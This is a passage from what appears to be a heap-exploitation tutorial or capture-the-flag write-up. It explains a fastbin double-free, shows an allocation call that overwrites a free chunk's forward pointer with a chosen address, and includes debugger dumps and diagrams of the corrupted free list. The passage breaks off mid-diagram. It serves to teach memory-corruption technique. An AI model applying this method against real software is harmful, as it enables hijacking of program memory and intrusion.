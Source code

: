 Do you see what I see? We placed the same chunk **twice** in its corresponding free list! Now ask yourselves, what's going to happen once we request a chunk of size `0x70`? You already know it by now, `malloc` will check the **head** of the free list and serve back the chunk. However, because of the way we have constructed the free list thanks to the double-free bug, we get to affect `0x617c80`'s FD pointer while it's free! Let's see it in action.

```python
alloc(0x68, p64(bss))
```

```makefile
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x617c10 --> 0x617c80 --> 0x6052ed
(0x80)     fastbin[6]: 0x0
```

Let me remind you of the structure of a fastbin chunk and then just pause and ponder.

```makefile
Fastbin Chunk Structure

    chunk-> +-------------------------------------------+
            |    Size of previous chunk if it's free    |
            +-------------------------------------------+
            |             Size of chunk                 |
      mem-> +-------------------------------------------+
            |    Forward pointer to next chunk in list  |
            +-------------------------------------------+
            |                   ...                     |
            +-------------------------------------------+
```

In general, whenever we request a chunk, `malloc` will serve back a pointer to where `mem` is pointing to in the ascii-art. Regarding the exploit now, we requested a chunk of size `0x68` (which wraps around `0x70` for alignment purposes) and we effectively got access to `0x617c80` which happens to remain in the free list as well. As it can be seen below, we overwrote the `FD` field with an address of our choice.

```makefile
0x617c80:   0x0000000000000000  0x0000000000000071 <--  chunk 3 [free & in use]
0x617c90:   0x00000000006052ed <-- FD pointer
```

Here's a view of the fastbin list as well:


```makefile
fastbinsY[] alloc(0x68)

   0x20      0x30               0x70
+--------++--------+         +--------+
|        ||        |   ...   |        |   ...
|        ||        |         |        |
+--------++--------+         +--------+
                                  |
                                  |
                                  |
                             +--------+
                             |        |
                             |    2   |
                             +--------+
                                  |
                                  |
                                  |
                             +--------+
```